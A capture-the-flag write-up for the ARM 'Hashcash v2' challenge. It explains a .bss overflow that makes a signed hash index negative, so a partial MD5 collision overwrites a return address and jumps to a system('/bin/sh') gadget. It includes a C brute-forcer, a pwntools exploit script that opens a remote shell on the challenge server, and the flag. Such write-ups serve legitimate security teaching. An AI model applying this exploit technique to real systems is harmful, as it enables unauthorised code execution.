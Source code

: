 # Hashcash v2

![Game](images/game.png)

As you can see in the image above, you are required to find a string, that starts with `nonce`, which it's MD5 hash that starts with `n` zero bytes, where `n` is the level number. At the very end (level 16) you are required to find an MD5 hash with all bytes to zero. If you find such hash, the program will do for you `system('/bin/sh')`.

You are provided with:
* `lib` directory: for libraries
* `chall` bash file: for starting up the program
* `hashcashv2` executable

Info about hashcashv2:
* Arch:     arm-32-little
* RELRO:    Full RELRO
* Stack:    Canary found
* NX:       NX enabled
* PIE:      No PIE (0x10000)

I'm not an expert on crypto but for sure, there's no way to win the game legitly. Thus, i started looking for any vulnerability in the input and i find out that the input has an huge overflow in the `stdin`, `stdout` section. The memory structure of `.data` and `.bss` is the following.

![Memory](images/memory.png)

We can overwrite until `hmask`, so changing `count`, `nonce`, `stderr`, `stdin`, `stdout` and of course `hmash`. Changing `stdin` or `stdout` will lead to a segfault when performing input/ouptut operation (print, read, ...), so one of the first things i looked for was a memory leak of the libc. Unfortunately, i didn't find anything and i thought a way to change them without trigger any input/output operation.
The remaining variables in the `.bss` are:
* `count`: an signed integer variable used for addressing all of the hashes in a buffer on the stack. It is incremented every level and multiplied for 16(length of a MD5 digest) to select the address in which will be stored the current level hash.
* `nonce`: it's the random byte which starts our string that will be hashed. It's a random value and it's not changing each level. It is placed in the input buffer on `.data` before reading the input.
* `hmask`: mask used for show how many bytes are set to zero in the current level. Not very useful.
Basically, we can change `count` and `nonce`. Incrementing the value of `count` will lead to an overwriting on part of the stack we are not interesed in. The game won't return normally, there's an alarm and so the only way to reach the return address on the stack is win the game legitly. Given that the `count` variable is signed, we can decrement it! In fact, if we overwrite the `count` variable with -1(`\xff\xff\xff\xff`), we can place the hash of the current input in the frame of a function called in the main function. The first function that will be called is the function that generates the hash and place it(using the `count` variable) in the buffer of the hash. With `count` equal to -1 this function overwrite its return address with the lowest 4 bytes of the current hash.

## Idea! 

Overwrite the return address of the hash function with a choosen address, so finding a collision on the first 4 byte of the hash.
The only address we can use is 0x00010C70 which performs: <br />
LDR     R0, =aBinSh     ; "/bin/sh" <br />
BL      system <br />
<br />
N.B.: This address won't lead to any input/output operation, so it's perfect.

## String structure

Finally, we just need to create a string which its MD5 hash has its 4 byte equal to 0x00010C70.
The string is composed by:
* 1 random byte(`nonce`): we can not choose nor change it.
* 1023 bytes: i placed them to `\x00`.
* 20 bytes: bytes for `stderr`, `stdin`, `stdout` and 4 unused bytes.
* `count` bytes: they have to be placed to `\xff\xff\xff\xff`
* 4 bytes called `a`, `b`, `c` and `d`: i placed these bytes at the end in order to iterate them to find a collision.

## Problem

The only part of this string we cannot control is the `nonce` byte, so i decided to fill a list of `a`, `b`, `c` and `d` values that bring to a collision, for each value of `nonce`.

## Script and collision generator

I used the following program to generate the collision.

```C
#include <stdbool.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <openssl/md5.h>


void printHash(char *digest)
{
    int i;

    printf("MD5: ");
    for(i = 0; i < 16; i++)
    {
        if (digest[i])
        {
            printf("%02x", digest[i] & 0xff);
        }
        else
        {
            printf("00");
        }
    }
    printf("\n");
}

void main(int argc, char const *argv[])
{
    unsigned char digest[16];
    MD5_CTX initial;
    MD5_CTX final;
    unsigned char data[1048];
    unsigned char end[4];
    int i, a, b, c , d;
    bool found;


    for(i = 1; i < 256; i++)
    {
        memset(data, 0, 1048);
        data[0] = i;
        data[1044] = 0xff;
        data[1045] = 0xff;
        data[1046] = 0xff;
        data[1047] = 0xff;
        MD5_Init(&initial);
        MD5_Update(&initial, data, 1048);
        found = false;
        for(a = 0; a < 256 && found == false; a++)
        {
            for(b = 0; b < 256 && found == false; b++)
            {
                for(c = 0; c < 256 && found == false; c++)
                {
                    for(d = 0; d < 256 && found == false; d++)
                    {
                        memcpy(&final, &initial, sizeof(MD5_CTX));
                        end[0] = (char) a;
                        end[1] = (char) b;
                        end[2] = (char) c;
                        end[3] = (char) d;
                        MD5_Update(&final, end, 4);
                        MD5_Final(digest, &final);
                        if((char) digest[0] == 0x70)
                        {
                            if((char) digest[1] == (char) 0x0C)
                            {
                                if((char) digest[2] == (char) 0x01)
                                {
                                    if((char) digest[3] == (char) 0x00)
                                    {
                                        printf("i: %02x\n", i & 0xff);
                                        printf("a: %02x\n", a & 0xff);
                                        printf("b: %02x\n", b & 0xff);
                                        printf("c: %02x\n", c & 0xff);
                                        printf("d: %02x\n", d & 0xff);
                                        found = true;
                                        printHash(digest);
                                    }
                                }
                            }                           
                        }
                    }
                }
            }
        }
    }
}
```

It's very ignorant but, as i said, i'm not good on crypto stuff. However, it generates a collision at most every 3 min.
Once generated a new collision, the `a`, `b`, `c` and `d` are placed in a list of the following script.

```Python
from pwn import *
import md5

abcd_array = ['\x81\xf3\x1f\x02', '\x6a\xbc\xc3\x37']
while True:
    try:
        #conn = process(argv=['qemu-arm', '-g', '4000', '-L', './', './hashcashv2_patched'])
        conn = remote('142.93.39.178 2023', 2023)
        conn.recvuntil('\x1B[1mnonce:\x1B[0m 0x')
        byte = conn.recvuntil('\n')
        byte = int(byte, 16)
        conn.recvuntil('\x1B[1minput:\x1B[0m ')
        data_payload = ('\x00' * 1023)
        #libc std
        bss_payload = '\x00' * 16
        #completed
        bss_payload += '\x00' * 4
        #count
        bss_payload += '\xff\xff\xff\xff'
        #"proof of work"
        bss_payload += abcd_array[byte]
        payload = data_payload + bss_payload
        conn.sendline(payload)
        conn.interactive()
    except Exception as e:
        conn.close()
        continue
```
As you can see, there are only two values in the list because i got lucky and the `nonce` byte was 0x00 or 0x01.
<br />
`SECT{Y0U_kn0w_i7s_b@d_wHeN_cAn4R1es_n33d_C@NaRi3z}`
